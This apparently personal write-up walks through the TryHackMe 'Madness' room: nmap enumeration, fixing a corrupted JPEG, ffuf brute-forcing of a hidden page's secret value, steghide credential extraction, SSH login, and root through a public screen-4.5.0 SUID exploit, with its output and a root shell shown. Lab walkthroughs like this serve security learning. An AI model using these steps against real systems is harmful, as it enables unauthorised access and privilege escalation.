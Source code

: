 ## Madness
https://tryhackme.com/room/madness

## Enum
```
nmap -Pn -sC -sV -sS 10.10.195.81 -vv -T 4
```
```
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnNdHQKU4ZvpWn7Amdx7LPhuwUsHY8p1O8msRAEkaIGcDzlla2FxdlnCnS1h+A84lzn1oubZyb5vMrPM8T2IsxoSU2gcbbgfq/3giAL+hmuKm/nD43OKRflSHlcpIVgwQOVRdEfbQSOVpV5VBtJziA1Xu2dts2WWtawDS93CBtlfyeh+BuxZvBPX2k8XPWwykyR6cWbdGz1AAx6oxNRvNShJ99c9Vs7FW6bogwLAe9SWsFi2oB7ti6M/OH1qxgy7ZPQFhItvI4Vz2zZFGVEltL1fkwk2dat8yfFNWwm6+/cMTJqbVb7MPt3jc9QpmJmpgwyWuy4FTNgFt9GKNOJU6N
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGMMalsXVdAFj+Iu4tESrnvI/5V64b4toSG7PK2N/XPqOe3q3z5OaDTK6TWo0ezdamfDPem/UO9WesVBxmJXDkE=
|   256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB3zGVeEQDBVK50Tz0eNWzBJny6ddQfBb3wmmG3QtMAQ
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![image](https://user-images.githubusercontent.com/6504854/185188229-e9d3dc81-d5d8-4d72-ba29-2e38b2fe43b0.png)
![image](https://user-images.githubusercontent.com/6504854/185188356-18b9322b-5e56-4f2c-bea4-bbd1218116a6.png)
![image](https://user-images.githubusercontent.com/6504854/185189018-13573596-e86d-4687-b5e1-42cba44008db.png)

🏴 I scanned and nothing found. I checked top page carefully it seems bloken jpeg file and browser reads as png ?

![image](https://user-images.githubusercontent.com/6504854/185190655-bc8831af-ad23-4b79-8677-90e36faec2ef.png)

https://www.oh-benri-tools.com/tools/programming/hex-editor

![image](https://user-images.githubusercontent.com/6504854/185191346-e7dd29da-caee-4172-90fb-c4a9931c0ffe.png)

🏴 I rewrite top 2byte, change extention and open.

```
curl http://tg.thm/t***_**_****** -L
```
```
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: </p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
```
![image](https://user-images.githubusercontent.com/6504854/185192073-77da6983-ebc2-4d0a-a1ba-f3fc2ee88798.png)
![image](https://user-images.githubusercontent.com/6504854/185192166-1ff97e52-87d2-4cf0-ada5-2fed493959c8.png)
![image](https://user-images.githubusercontent.com/6504854/185192319-283264d0-658e-46cb-9965-0923df4ae0cc.png)

🏴 I add prameter /?secret=1 and sent.

```
ffuf -u http://tg.thm/****_**_******?secret=FUZZ -w number.txt -t 1 -r
```
```
1                       [Status: 200, Size: 407, Words: 45, Lines: 19, Duration: 425ms]
2                       [Status: 200, Size: 407, Words: 45, Lines: 19, Duration: 423ms]
3                       [Status: 200, Size: 407, Words: 45, Lines: 19, Duration: 506ms]

70                      [Status: 200, Size: 408, Words: 45, Lines: 19, Duration: 440ms]
71                      [Status: 200, Size: 408, Words: 45, Lines: 19, Duration: 423ms]
72                      [Status: 200, Size: 408, Words: 45, Lines: 19, Duration: 438ms]
73                      [Status: 200, Size: 445, Words: 53, Lines: 19, Duration: 447ms]

100                     [Status: 200, Size: 409, Words: 45, Lines: 19, Duration: 401ms]
```
🏴 No 73 is diffrent from othes.

```
curl tg.thm/****_**_******/?secret=73
```
```
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y***********</p>

</div>
</body>
</html>
```
🏴 Bingo!!

```
steghide --extract -sf thm.jpeg
```
```
Enter passphrase:
Corrupt JPEG data: 18 extraneous bytes before marker 0xdb
wrote extracted data to "hidden.txt".


cat hidden.txt
Fine you found the password!

Here's a username

w****
```
![image](https://user-images.githubusercontent.com/6504854/185194413-97f235b0-f821-4911-b4b1-914f96c9cc2c.png)

🏴 I connected SSH with user w*****, pass y*********** but I couldn't. 

I connected SSH with user j****, pass y*********** but I couldn't.

"Fine you found the password!"?????? 🤸🤸🤸

![image](https://user-images.githubusercontent.com/6504854/185195938-1dd9769b-25c1-437e-bc21-7286466340c2.png)

```
wget https://i.imgur.com/5iW7kC8.jpg
```
```
steghide --extract -sf 5iW7kC8.jpg
```
```
Enter passphrase:
wrote extracted data to "password.txt".
```
```
cat password.txt
I didn't think you'd find me! Congratulations!

Here take my password

**********P
```
🏴 Finally I got credential???

## Flag
```
ssh j****@tg.thm
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

j****@ubuntu:~$ cat user.txt
```
🏴 OK 😄

```
j****@ubuntu:~$ sudo -l
[sudo] password for j****:
Sorry, may not run sudo on ubuntu.
j****@ubuntu:~$ ls -la /usr/bin/pkexec
ls: cannot access '/usr/bin/pkexec': No such file or directory
j****@ubuntu:~$ which pkexec
```
😢😢😢 最近できない。

```
j****@ubuntu:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount

@ubuntu:~$ LFILE=file_to_write
@ubuntu:~$ screen -L $LFILE echo DATA
[screen is terminating]
```
🏴 https://www.exploit-db.com/exploits/41154

```
j****@ubuntu:~$ vi test.sh
j****@ubuntu:~$ chmod +x test.sh
j****@ubuntu:~$ ./test.sh

./test.sh: line 1: creenroot.sh: command not found
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-.

# id
uid=0(root) gid=0(root) groups=0(root),1000()
# cat /root/root.txt
```

Thank you for your reading. Happy Hacking 😄 🌏🌏🌏

